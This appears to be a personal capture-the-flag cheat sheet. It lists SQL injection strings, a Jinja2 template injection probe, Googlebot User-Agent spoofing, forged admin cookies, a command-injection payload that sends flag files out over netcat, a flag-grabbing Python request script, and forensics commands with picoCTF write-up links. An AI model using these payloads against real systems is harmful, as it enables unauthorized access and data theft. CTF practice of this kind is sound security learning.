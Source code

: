# Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --
' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --

*Testing for Flask framework (Jinja2)*
{{1+1}} -> {{config.items()}}

*Exploiting Ping command via WebApp*
8.8.8.8; cat *flag* | nc -lp 54433 -> nc targetip 54433

*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]

*OTHERS*

*Forensics*
strings filename | grep flag
exiftool image | grep flag
zsteg image
file filename

https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/forensics/



*Bitflip*
https://wannabyte.xyz/2018/10/picoctf-secure-logon/
https://security.stackexchange.com/questions/177614/how-difficult-is-it-to-modify-aes-ciphertext-in-a-meaningful-way

*General Skills*
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/general-skills/
https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/general-skills/
